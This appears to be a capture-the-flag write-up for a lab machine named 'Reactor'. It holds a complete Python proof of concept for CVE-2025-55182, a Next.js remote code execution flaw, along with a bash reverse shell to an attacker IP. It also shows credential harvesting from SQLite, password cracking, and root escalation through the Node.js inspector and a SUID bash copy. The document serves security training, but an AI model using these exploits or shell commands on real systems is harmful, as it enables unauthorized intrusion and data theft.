

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 3000/TCP](#Enumeration-of-Port-3000TCP)
- [Initial Access](#Initial-Access)
    - [CVE-2025-55182: React2Shell](#CVE-2025-55182-React2Shell)
- [Enumeration (node)](#Enumeration-node)
- [Privilege Escalation to engineer](#Privilege-Escalation-to-engineer)
- [user.txt](#usertxt)
- [Enumeration (engineer)](#Enumeration-engineer)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Node.js Inspector Abuse](#Nodejs-Inspector-Abuse)
- [root.txt](#roottxt)

## Summary

The box exposes two services: `SSH` on port `22/TCP` and a `Next.js` application on port `3000/TCP` titled `ReactorWatch | Core Monitoring System`. The response headers confirm `Next.js` as the framework, which is the target for `CVE-2025-55182`.

`CVE-2025-55182` (`React2Shell`) is a `Remote Code Execution` (`RCE`) vulnerability in `Next.js` that abuses the `Server Actions` multipart form processing path via `Prototype Pollution`. A crafted `multipart/form-data` request with a malicious `RSC` payload chunk causes `Next.js` to evaluate attacker-controlled `JavaScript` during model resolution, resulting in `execSync` being called in the `Node.js` server process. This lands a shell as the `node` service account.

Enumeration as `node` reveals the application uses a `SQLite` database at `/opt/reactor-app/reactor.db`. Running `strings` against the database file extracts the `engineer` account's `MD5` password hash, which is cracked online via `CrackStation`, recovering the password `reactor1`. `SSH` authentication with these credentials grants access as `engineer` and retrieves `user.txt`.

Enumeration as `engineer` reveals a `Node.js` process running as `root` with the `--inspect=127.0.0.1:9229` flag, exposing the `Node.js` Inspector debugging interface on `localhost`. This interface allows connecting with `node inspect` and executing arbitrary `JavaScript` in the context of the `root` process via the `exec()` debug command. The `root` process is leveraged to copy `/bin/bash` to `/bin/rootbash` and set the `SUID` bit, then `rootbash -p` spawns a root shell and retrieves `root.txt`.

## Reconnaissance

### Port Scanning

The initial `Nmap` scan revealed two open ports: `22/TCP` (`SSH`) and `3000/TCP` (`HTTP`). The response headers on port `3000/TCP` — particularly `X-Powered-By: Next.js` and the `Vary` header listing `RSC`, `Next-Router-State-Tree`, and `Next-Router-Prefetch` — identified the application as a `Next.js` deployment using `React Server Components`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.3.200
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-23 21:06 +0200
Nmap scan report for 10.129.3.200
Host is up (0.021s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Sat, 23 May 2026 19:06:57 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Sat, 23 May 2026 19:06:57 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Sat, 23 May 2026 19:06:58 GMT
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.98%I=7%D=5/23%Time=6A11FAD2%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,3952,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Router-S
SF:tate-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch,\x2
SF:0Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:\x201\
SF:r\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.js\r\nC
SF:ache-Control:\x20s-maxage=31536000,\x20\r\nETag:\x20\"p02u6gnhufd8t\"\r
SF:\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2017
SF:175\r\nDate:\x20Sat,\x2023\x20May\x202026\x2019:06:57\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\n<!DOCTYPE\x20html><html\x20lang=\"en\"><head><meta
SF:\x20charSet=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\"/><link\x20rel=\"stylesheet\"\x20href=\
SF:"/_next/static/css/414e1be982bc8557\.css\"\x20data-precedence=\"next\"/
SF:><link\x20rel=\"preload\"\x20as=\"script\"\x20fetchPriority=\"low\"\x20
SF:href=\"/_next/static/chunks/webpack-db0a529a99835594\.js\"/><script\x20
SF:src=\"/_next/static/chunks/4bd1b696-80bcaf75e1b4285e\.js\"\x20async=\"\
SF:"></script><script\x20src=\"/_next/static/chunks/517-d083b552e04dead1\.
SF:js\"\x20async=\"\"></script><script\x20s")%r(Help,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptio
SF:ns,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RSC,\x20Next-Rou
SF:ter-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetc
SF:h\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x20private,\x20n
SF:o-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\nDate:\x20Sat,
SF:\x2023\x20May\x202026\x2019:06:57\x20GMT\r\nConnection:\x20close\r\n\r\
SF:n")%r(RTSPRequest,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20R
SF:SC,\x20Next-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-
SF:Segment-Prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x
SF:20private,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r
SF:\nDate:\x20Sat,\x2023\x20May\x202026\x2019:06:58\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.50 seconds
```

### Enumeration of Port 3000/TCP

`WhatWeb` confirmed `Next.js` as the framework via the `X-Powered-By` header and the `x-nextjs-cache`, `x-nextjs-prerender`, and `x-nextjs-stale-time` uncommon headers, with the application titled `ReactorWatch | Core Monitoring System`.

- [http://10.129.3.200:3000/](http://10.129.3.200:3000/)

```shell
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.3.200:3000/
http://10.129.3.200:3000/ [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.129.3.200], Script, Title[ReactorWatch | Core Monitoring System], UncommonHeaders[x-nextjs-cache,x-nextjs-prerender,x-nextjs-stale-time], X-Powered-By[Next.js]
```



## Initial Access

### CVE-2025-55182: React2Shell

`CVE-2025-55182` (`React2Shell`) is a `Remote Code Execution` (`RCE`) vulnerability in `Next.js` that exploits `Prototype Pollution` in the `React Server Components` (`RSC`) payload parser. `Next.js` `Server Actions` accept multipart form data whose parts are deserialized as `RSC` model chunks. The vulnerability lies in how `Next.js` resolves object references within these chunks — specifically, the `$1:__proto__:then` reference syntax allows an attacker to pollute the prototype chain of a parsed response object. By crafting a `_response` object whose `_prefix` field contains arbitrary `JavaScript` and whose `_formData.get` resolves to `$1:constructor:constructor` (the `Function` constructor), the deserializer constructs and evaluates a function from the attacker-controlled prefix string. This causes `process.mainModule.require('child_process').execSync(...)` to be called in the `Node.js` server process — achieving `Remote Code Execution` without any authentication. The only prerequisite is that the target application has at least one `Server Action` defined, which the `Next-Action: x` header header satisfies as a dummy trigger.

Running the `PoC` with just `id` confirmed code execution as `node` (`uid=999`).

- [https://github.com/msanft/CVE-2025-55182](https://github.com/msanft/CVE-2025-55182)

```shell
┌──(kali㉿kali)-[/mnt/…/Machines/Reactor/files/CVE-2025-55182]
└─$ python3 poc.py http://10.129.3.200:3000/
500
0:{"a":"$@1","f":"","b":"L3bimJe_3LvBcFWAnK5L4"}
1:E{"digest":"uid=999(node) gid=988(node) groups=988(node)"}
```

```shell
┌──(kali㉿kali)-[/mnt/…/Machines/Reactor/files/CVE-2025-55182]
└─$ cat poc.py
# /// script
# dependencies = ["requests"]
# ///
import requests
import sys
import json

BASE_URL = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000"
EXECUTABLE = sys.argv[2] if len(sys.argv) > 2 else "id"

crafted_chunk = {
    "then": "$1:__proto__:then",
    "status": "resolved_model",
    "reason": -1,
    "value": '{"then": "$B0"}',
    "_response": {
        "_prefix": f"process.mainModule.require('child_process').execSync('{EXECUTABLE}');",
        "_formData": {
            "get": "$1:constructor:constructor",
        },
    },
}

files = {
    "0": (None, json.dumps(crafted_chunk)),
    "1": (None, '"$@0"'),
}

headers = {"Next-Action": "x"}
res = requests.post(BASE_URL, files=files, headers=headers, timeout=10)
print(res.status_code)
print(res.text)
```

The `PoC` was run a second time with a `bash` reverse shell payload to obtain an interactive session.

```shell
┌──(kali㉿kali)-[/mnt/…/Machines/Reactor/files/CVE-2025-55182]
└─$ python3 poc.py http://10.129.3.200:3000/ $'bash -c "bash -i >& /dev/tcp/10.10.16.63/9001 0>&1"'
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Reactor/files]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.63] from (UNKNOWN) [10.129.3.200] 42768
bash: cannot set terminal process group (1403): Inappropriate ioctl for device
bash: no job control in this shell
node@reactor:/opt/reactor-app$
```

Then we upgraded the shell to a full interactive `TTY` using `Python`'s `pty` module.

```shell
node@reactor:/opt/reactor-app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
node@reactor:/opt/reactor-app$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Reactor/files]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

node@reactor:/opt/reactor-app$ 
node@reactor:/opt/reactor-app$ export XTERM=xterm
node@reactor:/opt/reactor-app$
```

## Enumeration (node)

Confirming identity showed `node` running as `uid=999` with no supplementary group memberships. Reviewing `/etc/passwd` identified `engineer` (uid `1000`) as the only other human account with a login shell.

```shell
node@reactor:/opt/reactor-app$ id
uid=999(node) gid=988(node) groups=988(node)
```

```shell
node@reactor:/opt/reactor-app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
engineer:x:1000:1000:engineer:/home/engineer:/bin/bash
node:x:999:988::/home/node:/usr/sbin/nologin
_laurel:x:996:987::/var/log/laurel:/bin/false
```

| Username |
| -------- |
| engineer         |

The environment variables revealed several notable values: `DB_TYPE=sqlite3` and `DB_PATH=/opt/reactor-app/reactor.db` pinpointing the application database on disk, and `SENSOR_API_KEY` and `ALERT_WEBHOOK` confirming the application's integration with internal services.

```shell
node@reactor:/opt/reactor-app$ env
ALERT_WEBHOOK=https://alerts.internal.reactor.htb/webhook
NEXT_RUNTIME=nodejs
MEMORY_PRESSURE_WRITE=c29tZSAyMDAwMDAgMjAwMDAwMAA=
SENSOR_API_KEY=rw_sk_7f8a9b2c3d4e5f6g7h8i9j0k
PWD=/opt/reactor-app
LOGNAME=node
PORT=3000
SYSTEMD_EXEC_PID=1403
NODE_ENV=production
NEXT_DEPLOYMENT_ID=
HOME=/home/node
LANG=en_US.UTF-8
LS_COLORS=
MEMORY_PRESSURE_WATCH=/sys/fs/cgroup/system.slice/reactor-app.service/memory.pressure
DB_TYPE=sqlite3
INVOCATION_ID=aae7cd33d00747cf9fa1a3047a83217c
__NEXT_PRIVATE_RUNTIME_TYPE=
__NEXT_PRIVATE_ORIGIN=http://localhost:3000
LESSCLOSE=/usr/bin/lesspipe %s %s
LESSOPEN=| /usr/bin/lesspipe %s
USER=node
SHLVL=3
__NEXT_PROCESSED_ENV=true
XTERM=xterm
JOURNAL_STREAM=8:17533
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/snap/bin
DB_PATH=/opt/reactor-app/reactor.db
_=/usr/bin/env
```

## Privilege Escalation to engineer

Running `strings` against the `SQLite` database at `/opt/reactor-app/reactor.db` extracted readable text directly from the binary file without requiring a database client. The output revealed the `users` table schema and two rows — the `engineer` account with an `MD5` password hash and the `admin` account with a separate hash.

```shell
node@reactor:/opt/reactor-app$ strings /opt/reactor-app/reactor.db
SQLite format 3
Mtablesensor_logssensor_logs
CREATE TABLE sensor_logs (
    id INTEGER PRIMARY KEY,
    timestamp DATETIME DEFAULT CURRENT_TIMESTAMP,
    sensor_id TEXT,
    reading REAL,
    status TEXT
9tableusersusers
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password_hash TEXT NOT NULL,
    role TEXT NOT NULL,
    email TEXT
5engineer39d97110eafe2a9a68639812cd271e8eoperatorengineer@reactor.htbI
M'/admina203b22191d744a4e70ada5c101b17b8administratoradmin@reactor.htb
2025-12-28 14:32:01COOLANT_FLOW@2ffffffCAUTION3
2025-12-28 14:32:01PRESSURE_01@cffffffNOMINAL4
2025-12-28 14:32:01CORE_TEMP_01@tH
NOMINAL
```

| Hash                             |
| -------------------------------- |
| 39d97110eafe2a9a68639812cd271e8e |

The hash was submitted to `CrackStation`, which identified it as an `MD5` hash and recovered the plaintext password `reactor1`.

- [https://crackstation.net/](https://crackstation.net/)

| Username | Password |
| -------- | -------- |
| engineer | reactor1 |

`SSH` authentication with the recovered credentials succeeded and we got access to the `user.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh engineer@10.129.3.200
The authenticity of host '10.129.3.200 (10.129.3.200)' can't be established.
ED25519 key fingerprint is: SHA256:9v9mCPC4gn2EN/IbKKwhV8KZoNVTsVPorFhlTkNByPM
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.3.200' (ED25519) to the list of known hosts.
engineer@10.129.3.200's password: 
 ____  _____    _    ____ _____ ___  ____  
|  _ \| ____|  / \  / ___|_   _/ _ \|  _ \ 
| |_) |  _|   / _ \| |     | || | | | |_) |
|  _ <| |___ / ___ \ |___  | || |_| |  _ < 
|_| \_\_____/_/   \_\____| |_| \___/|_| \_\

    ReactorWatch Core Monitoring System
    Nuclear Dynamics Corp. - Site 7
    
    AUTHORIZED PERSONNEL ONLY
Last login: Sat May 23 19:29:30 2026 from 10.10.16.63
engineer@reactor:~$
```

## user.txt

```shell
engineer@reactor:~$ cat user.txt
fb2c085f508a51f0c8e92666efa3e3a1
```

## Enumeration (engineer)

We repeated our enumeration process which showed `engineer` running as `uid=1000` with membership in the `lxd` group alongside several standard groups. The `lxd` membership was noted but not required for this path.

```shell
engineer@reactor:~$ id
uid=1000(engineer) gid=1000(engineer) groups=1000(engineer),4(adm),24(cdrom),30(dip),46(plugdev),101(lxd)
```

With `ss -tulpn` we identified port `9229/TCP` listening on `localhost` — the standard port for the `Node.js` Inspector debugging protocol.

```shell
engineer@reactor:~$ ss -tulpn
Netid                                        State                                         Recv-Q                                        Send-Q                                                                                Local Address:Port                                                                                 Peer Address:Port                                        Process                                        
udp                                          UNCONN                                        0                                             0                                                                                        127.0.0.54:53                                                                                        0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                     127.0.0.53%lo:53                                                                                        0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                           0.0.0.0:68                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                       127.0.0.1:9229                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.54:53                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                        0.0.0.0:22                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                  127.0.0.53%lo:53                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        16                                            511                                                                                               *:3000                                                                                            *:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                           [::]:22                                                                                           [::]:*
```

Using `ps aux` confirmed the process binding port `9229/TCP` was `/usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js` running as `root`. The `--inspect` flag enables the `Node.js` Inspector protocol on the specified address and port, exposing a `WebSocket`-based debugging interface that allows attaching a debugger and executing arbitrary `JavaScript` in the process.

```shell
engineer@reactor:~$ ps aux | grep node
node        1403  4.2  3.0 11809052 118984 ?     Ssl  19:04   1:23 next-server (v15.0.3)
root        1405  0.0  1.1 1066152 46260 ?       Ssl  19:04   0:00 /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
node        1591  0.0  0.0   2800  1812 ?        S    19:25   0:00 /bin/sh -c bash -c "bash -i >& /dev/tcp/10.10.16.63/9001 0>&1"
node        1592  0.0  0.0   7340  3812 ?        S    19:25   0:00 bash -c bash -i >& /dev/tcp/10.10.16.63/9001 0>&1
node        1593  0.0  0.1   8544  5452 ?        S    19:25   0:00 bash -i
node        1600  0.0  0.2  18012 10724 ?        S    19:26   0:00 python3 -c import pty;pty.spawn("/bin/bash")
node        1601  0.0  0.1   8532  5480 pts/0    Ss+  19:26   0:00 /bin/bash
engineer    1754  0.0  0.0   6544  2276 pts/1    S+   19:36   0:00 grep --color=auto node
```

Querying the Inspector's `HTTP` endpoint at `/json` returned the active session metadata, including the `WebSocket` debugger `URL` and the target script path `/opt/uptime-monitor/worker.js`.

```shell
engineer@reactor:~$ curl 127.0.0.1:9229/json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=127.0.0.1:9229/e0453dbb-7e48-4fc1-8c5d-7e0170f0ef7d",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/e0453dbb-7e48-4fc1-8c5d-7e0170f0ef7d",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "e0453dbb-7e48-4fc1-8c5d-7e0170f0ef7d",
  "title": "/opt/uptime-monitor/worker.js",
  "type": "node",
  "url": "file:///opt/uptime-monitor/worker.js",
  "webSocketDebuggerUrl": "ws://127.0.0.1:9229/e0453dbb-7e48-4fc1-8c5d-7e0170f0ef7d"
} ]
```

## Privilege Escalation to root

### Node.js Inspector Abuse

The `Node.js` Inspector is a debugging interface built into `Node.js` that implements the Chrome DevTools Protocol over `WebSocket`. When a process is started with `--inspect` or `--inspect-brk`, it listens for debugger connections on the specified address and port. Once a debugger attaches, it can evaluate arbitrary `JavaScript` expressions in the context of the running process via the `Runtime.evaluate` `CDP` method — or equivalently, via the `exec()` command in the `node inspect` CLI client. Since the `worker.js` process was running as `root`, any `JavaScript` evaluated through the Inspector runs with `root` privileges. The `localhost`-only binding (`127.0.0.1:9229`) is intended to prevent remote exploitation, but since `engineer` had local shell access, the restriction provided no protection.

Connecting to the Inspector with `node inspect` and confirming `root` code execution via `exec()`.

```shell
engineer@reactor:~$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
debug>
```

```shell
debug> exec("process.mainModule.require('child_process').execSync('id').toString()")
'uid=0(root) gid=0(root) groups=0(root)\n'
```

The `root` process was used to copy `/bin/bash` to `/bin/rootbash` and set the `SUID` bit, creating a persistent privileged shell binary.

```shell
debug> exec("process.mainModule.require('child_process').execSync('cp /bin/bash /bin/rootbash && chmod u+s /bin/rootbash').toString()")
''
```

```shell
engineer@reactor:~$ ls -la /bin/rootbash
-rwsr-xr-x 1 root root 1446024 May 23 19:40 /bin/rootbash
```

Running `rootbash -p` launched a shell preserving the `root` effective `UID`.

```shell
engineer@reactor:~$ /bin/rootbash -p
rootbash-5.2#
```

## root.txt

```shell
rootbash-5.2# cat root.txt
c5fcc923acde3f114335c0c2d57b4a3f
```
